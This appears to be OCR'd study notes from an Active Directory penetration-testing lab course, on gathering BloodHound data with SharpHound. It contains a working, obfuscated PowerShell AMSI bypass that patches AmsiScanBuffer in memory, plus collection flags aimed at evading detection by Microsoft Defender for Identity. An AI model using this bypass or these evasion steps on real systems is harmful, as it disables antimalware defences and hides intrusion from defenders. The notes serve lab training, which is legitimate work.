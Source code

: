 # **Learning Objective 5**
[[Learning Objective 5]]
# **Foothold established**
now with a shell and local admin privileges, we will use BloodHound to map attack paths (useful for pentesters and blue teamers, not so much for red teamers because of noise)
2 free versions of BloodHound:
- BloodHound Legacy - https://github.com/BloodHoundAD/BloodHound
- BloodHound CE (Community Edition) - https://github.com/SpecterOps/BloodHound
BloodHound CE > BloodHound Legacy
BloodHound Legacy is present in the Tools directory of student VM
Read-only access to prep-populated BloodHound CE - https://crtpbloodhound-altsecdashboard.msappproxy.net/. Use the credentials for crtpreader@altsecdashboard.onmicrosoft.com from the lab portal - https://adlab.enterprisesecurity.io
Dont need BloodHound CE or legacy, all that its needed is ingestors/collectors
- #### ***Supply data do BloodHound (remember to bypass .NET AMSI)***
```$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
 [DllImport("kernel32")]
 public static extern IntPtr GetProcAddress(IntPtr hModule, string
procName);
 [DllImport("kernel32")]
 public static extern IntPtr LoadLibrary(string name);
 [DllImport("kernel32")]
 public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr
dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ =
[ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ,
"$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```
`. C:\AD\Tools\BloodHound-master\Collectors\SharpHound.ps1`
`Invoke-BloodHound -CollectionMethod All` or 
`SharpHound.exe`
Now the gathered data can be uploaded to the BloodHound application (both Legacy and CE)
- #### ***To make BloodHound collection stealthy, use -Stealth option. This removes noisy collection methods like RDP, DCOM, PSRemote and LocalAdmin***
`Invoke-BloodHound -Stealth`or `SharpHound.exe --stealth`
- #### ***To avoid detections like MDI***
`Invoke-BloodHound -ExcludeDCs`
# **Learning Objective 6**
[[Learning Objective 6]]